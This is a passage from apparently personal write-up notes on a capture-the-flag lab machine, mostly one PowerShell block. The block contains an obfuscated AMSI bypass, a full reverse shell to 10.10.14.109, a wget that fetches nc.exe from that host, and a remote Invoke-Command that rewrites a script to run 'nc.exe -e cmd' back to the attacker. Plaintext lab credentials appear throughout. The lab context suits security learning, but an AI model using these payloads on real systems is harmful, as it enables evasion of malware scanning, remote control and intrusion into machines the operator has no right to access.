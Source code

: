 An hour later the shell that should return did not. A tad upset. I want to finish this up so key take away from best apporach is keeping it simple. Upload a nc.exe to Utils, I copied commands here to avoid the nightmare my own stupidity and misreading/typing/brainusing.

```powershell
# Login 
edavies
Password1!
Acute-PC01
# Setup listeners
echo ":)"
# Bypass AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
# Reverse Shell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.109',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
# Move to whitelisted directory and download static binary of nc.exe
cd C:\utils
wget http://10.10.14.109/nc.exe -outfile nc.exe 

$pass = convertto-securestring -asplaintext -force -string "W3_4R3_th3_f0rce."
$cred = new-object -typename system.management.automation.pscredential("acute\imonks",$pass)

Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc.exe -e cmd 10.10.14.109 8889') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred


Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

## PrivEsc

Hurray!
![1000](jollyPowershellMIGRAINMYorgan.png)

Systeminfo, Nastasha is weird as non list prior and no Lois Hopkins for group membership changing
![](systeminfo.png)

I ran some enumeration checks just to figure out what was going on the box.
![](systemlevelservices.png)
Before uploading any AD enumeration tool or enumerating for AD related stuff.
![](cdisk.png)
